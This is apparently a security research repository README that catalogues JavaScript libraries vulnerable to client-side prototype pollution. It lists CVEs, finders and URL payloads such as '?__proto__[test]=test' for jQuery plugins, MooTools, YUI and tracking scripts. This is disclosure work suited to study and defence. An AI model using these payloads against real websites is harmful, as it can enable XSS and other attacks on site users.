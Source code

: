 # CSPP - Client-Side Prototype Pollution

## Intro

If you are unfamiliar with Prototype Pollution Attack, you should read the following first:

* [Amazing work by s1r1us and team](https://blog.s1r1us.ninja/research/PP) by S1r1us 

* [JavaScript prototype pollution attack in NodeJS](https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript_prototype_pollution_attack_in_NodeJS.pdf) by Olivier Arteau  

* [Prototype pollution – and bypassing client-side HTML sanitizers](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) by Michał Bentkowski

* Special thankx to [Sergey Bobrov - Black2fan](https://twitter.com/Black2Fan) and all others mentioned below for info concat, [posix](https://twitter.com/po6ix) which introduced an interesting [technique](https://blog.p6.is/AST-Injection/) to achieve RCE in the template engines, [Michal Bentkowski](http://twitter.com/securitymb) showed [bypassing](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) client-side HTML sanitizers and [William Bowling's](https://twitter.com/wcbowling) found a Reflected [XSS](https://hackerone.com/reports/986386) on HackerOne using prototype pollution.
* A lot of people are involved in this work, it was really a great experience working with these super awesome people. 

From RCE to SQL, any vulnerability is possible with the prototype pollution in the javascript application.

In this repository, we're trying to collect examples of libraries that are vulnerable to Prototype Pollution due to `document.location` parsing and useful script gadgets that can be used to demonstrate the impact.

## Prototype Pollution

| Name                                                                       | Payload                                                                  | Refs                                        | Found by                                         |
|----------------------------------------------------------------------------|--------------------------------------------------------------------------|---------------------------------------------|--------------------------------------------------|
| Wistia Embedded Video (**Fixed**)                                          | `?__proto__[test]=test`<br>`?__proto__.test=test`                        | [[1]](https://hackerone.com/reports/986386) | [William Bowling](https://twitter.com/wcbowling) |
| [jQuery query-object plugin](/pp/jquery-query-object.md)<br>CVE-2021-20083 | `?__proto__[test]=test`<br>`#__proto__[test]=test`                       |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [jQuery Sparkle](/pp/jquery-sparkle.md)<br>CVE-2021-20084                  | `?__proto__.test=test`<br>`?constructor.prototype.test=test`             |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [V4Fire Core Library](/pp/v4fire-core.md)                                  | `?__proto__.test=test`<br>`?__proto__[test]=test`<br>`?__proto__[test]={"json":"value"}`|                              | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [backbone-query-parameters](/pp/backbone-qp.md)<br>CVE-2021-20085          | `?__proto__.test=test`<br>`?constructor.prototype.test=test`<br>`?__proto__.array=1\|2\|3`| [[1]](https://bugcrowd.com/disclosures/57b28008-4653-4dec-88c3-4d38e40023ff/toolbox-teslamotors-com-html-injection-via-prototype-pollution-potential-xss) | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [jQuery BBQ](/pp/jquery-bbq.md)<br>CVE-2021-20086                          | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`          |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [jquery-deparam](/pp/jquery-deparam.md)<br>CVE-2021-20087                  | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`          |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [MooTools More](/pp/mootools-more.md)<br>CVE-2021-20088                    | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`          |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [Swiftype Site Search](/pp/swiftype-site-search.md) (**Fixed**)            | `#__proto__[test]=test`                                                  | [[1]](https://hackerone.com/reports/998398) | [s1r1us](https://twitter.com/S1r1u5_)            |
| [CanJS deparam](/pp/canjs-deparam.md)                                      | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`          |                                             | [Rahul Maini](https://twitter.com/iamnoooob)     |
| [Purl (jQuery-URL-Parser)](/pp/purl.md)<br>CVE-2021-20089                  | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`<br>`#__proto__[test]=test`|                            | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [HubSpot Tracking Code](/pp/hubspot.md) (**Fixed**)                        | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`<br>`#__proto__[test]=test`|                            | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [YUI 3 querystring-parse](/pp/yui3.md)                                     | `?constructor[prototype][test]=test`                                     |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [Mutiny](/pp/mutiny.md) (**Fixed**)                                        | `?__proto__.test=test`                                                   |                                             | [SPQR](https://twitter.com/amlnspqr)             |